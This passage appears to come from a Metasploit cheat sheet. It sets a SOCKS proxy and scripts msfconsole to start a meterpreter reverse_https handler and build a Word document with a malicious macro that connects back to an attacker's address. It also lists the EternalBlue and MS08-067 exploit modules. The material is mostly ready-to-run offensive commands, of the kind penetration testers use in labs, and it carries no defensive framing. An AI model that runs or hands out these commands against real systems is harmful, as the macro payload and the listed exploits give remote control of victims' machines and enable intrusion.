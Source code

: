 ### Use SOCKS Proxy

Set proxy

```shell script
setg Proxies socks4:127.0.0.1:1080
```

## Scripting Metasploit {.cols-1}

### Office macro

Using a `.rc file`, write the commands to execute, then run `msfconsole -r ./file.rc`.  Here is a simple example to script the deployment of a handler an create an Office doc with macro.

```shell script {.wrap}
msf> use exploit/multi/handler
msf> set PAYLOAD windows/meterpreter/reverse_https
msf> set LHOST 0.0.0.0
msf> set LPORT 4646
msf> set ExitOnSession false
msf> exploit -j -z


msf> use exploit/multi/fileformat/office_word_macro 
msf> set PAYLOAD windows/meterpreter/reverse_https
msf> set LHOST 10.10.14.22
msf> set LPORT 4646
msf> exploit
```

## Best of - Exploits

* MS17-10 Eternal Blue - `exploit/windows/smb/ms17_010_eternalblue`
* MS08_67 - `exploit/windows/smb/ms08_067_netapi`


Also see
-------

* [Multiple transports in a meterpreter payload - ionize](https://ionize.com.au/multiple-transports-in-a-meterpreter-payload/)
* [Creating Metasploit Payloads - Peleus](https://netsec.ws/?p=331)